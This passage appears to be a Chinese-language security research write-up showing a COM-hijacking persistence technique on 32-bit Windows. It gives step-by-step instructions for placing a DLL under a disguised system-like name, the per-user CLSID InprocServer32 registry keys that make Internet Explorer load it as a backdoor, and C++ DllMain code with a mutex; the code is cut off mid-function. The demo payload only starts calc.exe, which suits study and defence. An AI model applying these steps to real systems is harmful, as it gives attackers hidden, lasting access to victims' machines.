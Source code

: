 ### 32位系统利用方法：

**1、新建文件**

在`%APPDATA%\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}\`下放入测试dll，重命名为`api-ms-win-downlevel-[4char-random]-l1-1-0._dl`

**注：**

测试dll下载地址：https://github.com/3gstudent/test/blob/master/calc.dll

重命名为`api-ms-win-downlevel-1x86-l1-1-0._dl`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-4/1-1.png)

**2、修改注册表**

注册表位置：`HKCU\Software\Classes\CLSID\`

创建项`{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}`

创建子项`InprocServer32`

Default的键值为测试dll的绝对路径：

`C:\Users\a\AppData\Roaming\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}\api-ms-win-downlevel-1x86-l1-1-0._dl`

创建键值： `ThreadingModel` `REG_SZ` `Apartment`


注册表内容如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-4/1-2.png)

**3、测试**

启动iexplore.exe，触发后门，多次启动calc.exe，最终导致系统死机

启动过程多次调用实例CAccPropServicesClass()，因此导致启动多个calc.exe，最终系统死机

**4、优化**

可以对dll加一个互斥量，防止重复加载，只启动一次calc.exe

c++代码为：

```
#pragma comment(linker,"/OPT:nowin98")
BOOL TestMutex()
{

	HANDLE hMutex = CreateMutex(NULL, false, "myself");  
	if (GetLastError() == ERROR_ALREADY_EXISTS)
	{
		CloseHandle(hMutex);
		return 0;  
	}
	return 1;
}
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
					 )
{
    switch (ul_reason_for_call)
	{
		case DLL_PROCESS_ATTACH:
			if(TestMutex()==0)
				return TRUE;
			WinExec("calc.exe",SW_SHOWNORMAL);
```
